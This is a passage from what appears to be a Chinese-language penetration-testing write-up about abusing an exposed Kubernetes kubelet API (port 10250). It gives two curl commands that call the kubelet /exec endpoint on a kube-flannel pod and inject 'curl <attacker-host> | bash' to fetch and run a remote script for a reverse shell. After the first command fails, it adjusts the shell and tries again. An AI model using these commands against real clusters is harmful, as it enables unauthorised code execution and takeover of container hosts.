 [![](assets/1698893355-aaf067896e9f9f0c2b4d4df4db743583.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171228-9e83b734-7316-1.png)  
之后进行反弹shell操作：

```plain
curl --insecure -v -H "X-Stream-Protocol-Version: v2.channel.k8s.io" -H "X-Stream-Protocol-Version: channel.k8s.io" -X POST "https://192.168.17.144:10250/exec/kube-system/kube-flannel-ds-xwk2t/kube-flannel?command=/bin/bash&command=-c&command=curl+192.168.17.161:80+|+bash&input=1&output=1&tty=1"
```

[![](assets/1698893355-75e897bb65a3460b621695ca74a10e3a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171249-ab27145e-7316-1.png)  
发现并不行，之后尝试下面的语句(主要换了sh)

```plain
curl --insecure -v -H "X-Stream-Protocol-Version: v2.channel.k8s.io" -H "X-Stream-Protocol-Version: channel.k8s.io" -X POST "https://192.168.17.144:10250/exec/kube-system/kube-flannel-ds-xwk2t/kube-flannel?command=/bin/sh&command=-c&command=curl+192.168.17.161+|+bash&input=1&output=1&tty=1"
```
